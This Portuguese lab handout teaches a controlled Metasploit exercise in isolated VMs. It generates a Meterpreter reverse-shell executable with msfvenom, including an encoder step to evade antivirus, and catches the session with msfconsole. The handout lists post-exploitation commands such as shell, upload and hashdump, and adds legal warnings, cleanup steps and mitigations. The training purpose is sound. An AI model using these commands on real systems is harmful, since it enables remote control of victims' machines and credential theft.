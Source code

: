 # Handout — msfvenom + msfconsole

## Aviso ético e legal

Este material destina-se **apenas** a fins educacionais, em ambientes controlados (laboratórios com VMs isoladas). Qualquer ação em sistemas reais sem autorização por escrito é ilegal (ex.: art. 154-A do Código Penal Brasileiro) e viola normas de privacidade (LGPD). Antes de qualquer teste, obtenha um documento de autorização (Rules of Engagement). O foco do exercício é aprender técnicas para melhorar a defesa: aplicação de patches, configuração de firewall e atualização de antivírus.

---

## Objetivo

Gerar um payload com `msfvenom` (executável Windows) e receber uma conexão reversa com `msfconsole` (Meterpreter). O objetivo é demonstrar o fluxo de um ataque controlado para fins pedagógicos e mostrar contramedidas.

---

## Nível e requisitos

- **Nível:** intermediário — conhecimentos básicos de Linux e redes.  
- **Máquina atacante:** Kali Linux com Metasploit (`msfvenom`, `msfconsole`) atualizado.  
- **Máquina alvo (demo):** VM Windows (7/10) em rede isolada (Host-only / Internal).  
- **Rede:** ambos os hosts na mesma sub-rede (ex.: `192.168.56.0/24`).  
- **Ferramentas mínimas:** `msfvenom`, `msfconsole`, `nmap`, `sqlmap` (opcional).  

**Observação:** não execute este material em infraestruturas de terceiros ou em redes de produção.

---

## Preparação rápida do laboratório

1. Crie duas VMs: Kali (atacante) e Windows (alvo).  
2. Configure a rede das VMs para Host-Only ou Internal Network.  
3. Anote os IPs: em Kali use `ip addr show`; em Windows use `ipconfig`.  
4. No Windows de laboratório, desligue temporariamente AV/firewall apenas para a demo e restaure após o exercício.  
5. Faça snapshot das VMs antes de iniciar (facilita restauração).

---

## Passo a passo

### 1. Identificar IP do atacante (LHOST)
No Kali:

```bash
ip addr show | grep inet
# Identifique o IP na interface usada (ex.: 192.168.56.100)
```

Anote o IP (LHOST) que será usado no payload e no handler.

---

### 2. Gerar payload com msfvenom

No Kali, gere um executável para Windows (exemplo x64 Meterpreter reverse TCP):

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=4444 -f exe -o /home/kali/payload.exe
```

Explicação rápida:

* `-p`: payload a usar.
* `LHOST`: IP do Kali.
* `LPORT`: porta de escuta (escolha livre, ex.: 4444).
* `-f exe`: formato executável Windows.
* `-o`: caminho e nome do arquivo de saída.

**Opcional — ofuscação / encoder:**
Se o antivírus detectar o executável, pode testar ofuscação:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=4444 -e x64/xor_dynamic -i 5 -f exe -o /home/kali/payload_encoded.exe
```

* Teste sempre em ambiente controlado. Não distribua arquivos maliciosos.

---

### 3. Transferir o payload para a VM alvo

Métodos:

* Pasta compartilhada (VirtualBox: Devices > Shared Folders).
* `scp`/sftp (se houver servidor SSH na VM):

  ```bash
  scp /home/kali/payload.exe user@192.168.56.101:/C/Users/Public/Desktop/
  ```
* Arraste e solte via interface do hypervisor (quando suportado).

**Importante:** garanta que a transferência e execução ocorram apenas na VM de laboratório.

---

### 4. Configurar o listener (handler) no msfconsole

1. Inicie Metasploit:

```bash
msfconsole
```

2. Carregue o módulo handler:

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.56.100
set LPORT 4444
show options   # verifique as configurações
exploit         # inicia o listener
```

O console deverá exibir `Listening for connections...`.

---

### 5. Executar o payload na máquina alvo

Na VM Windows (apenas no laboratório), execute `payload.exe` (duplo clique ou via CMD).
No `msfconsole` deverá aparecer a conexão:

```bash
[*] Started reverse TCP handler on 192.168.56.100:4444
[*] Meterpreter session 1 opened ...
```

Entrar na sessão:

```bash
sessions -l
sessions -i 1
# agora o prompt será 'meterpreter >'
```

---

### 6. Comandos básicos no Meterpreter

Exemplos úteis para demonstração:

```bash
sysinfo        # informações do sistema remoto
getuid         # usuário corrente
screenshot     # captura tela do host remoto (salva no Kali)
shell          # abre um shell CMD no Windows
upload <local> <remoto>   # envia arquivo do Kali para a VM
hashdump       # extrai hashes (requer privilégios)
background     # coloca a sessão em background
```

Para finalizar todas as sessões:

```bash
sessions -K
```

---

## Troubleshooting (problemas comuns e soluções)

* **"No such module: multi/handler"** — Metasploit desatualizado. Solução: `sudo msfupdate` e reinicie.
* **msfvenom informa LHOST inválido** — Use o IP real do Kali (verificado com `ip addr`).
* **Timeout / sem conexão** — Verifique conectividade (ping), firewall no Windows e regras de rede do hypervisor.
* **AV detecta o payload** — Teste em VM sem AV; use ofuscação apenas para demonstração controlada; explique limites das técnicas.
* **Payload não executa** — Verifique arquitetura do alvo (x86 vs x64) e permissões de execução.
* **Permissões de escrita ao salvar o payload** — use caminhos com permissão (`/tmp` ou `sudo`).

Dica: ative `spool /tmp/msf.log` no msfconsole para gravar sessão em log.

---

## Cleanup e restauração do ambiente

1. No msfconsole, finalize sessões:

```bash
sessions -K
```

2. No Kali, remova arquivos gerados:

```bash
rm /home/kali/payload*
```

3. Na VM Windows, remova o executável e reative AV e firewall.
4. Restaure snapshots das VMs para garantir estado limpo.
5. Se necessário, limpe o banco de dados Metasploit (`db_destroy`) — use com cuidado.

---

## Medidas de mitigação (o que ensinar além do ataque)

* Aplicar patches e atualizações de segurança.
* Desabilitar protocolos inseguros (p.ex., SMBv1).
* Configurar firewall para minimizar portas expostas.
* Implementar antivírus/EDR com assinatura e heurística atualizadas.
* Uso de autenticação forte e MFA.
* Monitoramento de logs e alertas (SIEM).

---

## Recursos e referências

* Metasploit (documentação e módulos): OffSec / Rapid7.
* Artigos e laboratórios: TryHackMe (sala Metasploit), HackTheBox.
* Vídeos didáticos: buscas por "Metasploit reverse shell demo" em fontes confiáveis.
* NVD / CVE: consulta de vulnerabilidades específicas.

---

## Checklist de autorização (modelo rápido)

* Responsável pelo ativo: __________________________
* IPs/VMs autorizadas: _____________________________
* Escopo permitido: _______________________________
* Período do teste: _______________________________
* Assinatura do responsável: ________________________

---

## Atenção

Use este handout para demonstrar os conceitos de forma segura e didática. Enfatize sempre a ética e as medidas de defesa associadas. Qualquer material gerado durante a aula (payloads, logs) deve ser mantido apenas no laboratório e removido ao final da atividade.
